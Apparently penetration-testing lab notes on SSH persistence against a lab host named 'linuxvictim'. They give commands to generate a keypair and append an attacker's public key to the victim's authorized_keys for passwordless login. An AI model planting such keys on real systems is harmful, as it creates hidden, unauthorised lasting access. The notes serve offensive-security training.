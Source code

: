 ### SSH Persistence

1. Generate the SSH keypair on our Kali vm 

```bash
ssh-keygen
```

2. On the linux victim machine, insert the public key into the authorized_keys file

```bash
echo "ssh-rsa AAAAB3NzaC1yc2E....ANSzp9EPhk4cIeX8=kali@kali" >> /home/linuxvictim/.ssh/authorized_keys
```

3. Now we can ssh from our Kali VM using our private key to the linuxvictim machine and log in as the linuxvictim user without a password.

```
ssh linuxvictim@linuxvictim
```
